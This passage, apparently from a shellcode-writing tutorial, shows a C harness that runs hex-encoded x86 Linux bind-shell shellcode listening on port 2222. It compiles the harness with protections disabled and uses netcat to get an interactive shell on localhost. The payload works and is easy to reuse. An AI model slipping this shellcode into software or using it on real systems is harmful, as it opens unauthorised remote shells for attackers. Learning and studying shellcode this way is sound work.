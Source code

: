 In order to test it, we can now used this return and add it to a C program which will execute our shellcode

The C program source code (this code can be found at root directory named 'test_shellcode.c')
```c
#include <stdio.h>
#include <string.h>

// bind_shell.nasm shellcode is stored here
unsigned char code[] = \
"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\x08\xae\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

main()
{
    // print the length of the shellcode
    printf("Shellcode Length:  %d\n", strlen(code));
    // convert shellcode to a function
    int (*ret)() = (int(*)())code;
    // execute the shellcode has a function
    ret();
}
```

Let's compile and execute this program:
```console
kali@kali:/tmp$ gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack 
kali@kali:/tmp$ ./test_shellcode 
Shellcode Length:  117

```
We can use netcat to check if the port 2222 is open:
```console
kali@kali:/tmp$ netstat -antp | grep 2222
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      1738/./test_shellcode
```

Finaly, netcat can be used to access our bind shell:
```console
kali@kali:/tmp$ nc -nv 127.0.0.1 2222
(UNKNOWN) [127.0.0.1] 2222 (?) open
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
whoami
kali
```


